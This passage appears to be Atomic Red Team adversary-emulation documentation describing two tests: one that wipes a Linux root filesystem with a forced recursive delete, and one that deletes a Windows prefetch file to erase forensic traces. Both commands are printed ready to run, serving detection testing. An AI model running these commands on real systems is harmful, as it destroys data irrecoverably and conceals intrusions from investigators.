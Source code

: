 


<br/>
<br/>

## Atomic Test #8 - Delete Filesystem - Linux
This test deletes the entire root filesystem of a Linux system. This technique was used by Amnesia IoT malware to avoid analysis. This test is dangerous and destructive, do NOT use on production equipment.

**Supported Platforms:** Linux


**auto_generated_guid:** f3aa95fe-4f10-4485-ad26-abf22a764c52






#### Attack Commands: Run with `sh`! 


```sh
[ "$(uname)" = 'Linux' ] && rm -rf / --no-preserve-root > /dev/null 2> /dev/null || chflags -R 0 / && rm -rf / > /dev/null 2> /dev/null
```






<br/>
<br/>

## Atomic Test #9 - Delete Prefetch File
Delete a single prefetch file.  Deletion of prefetch files is a known anti-forensic technique. To verify execution, Run "(Get-ChildItem -Path "$Env:SystemRoot\prefetch\*.pf" | Measure-Object).Count"
before and after the test to verify that the number of prefetch files decreases by 1.

**Supported Platforms:** Windows


**auto_generated_guid:** 36f96049-0ad7-4a5f-8418-460acaeb92fb






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Remove-Item -Path (Join-Path "$Env:SystemRoot\prefetch\" (Get-ChildItem -Path "$Env:SystemRoot\prefetch\*.pf" -Name)[0])
```





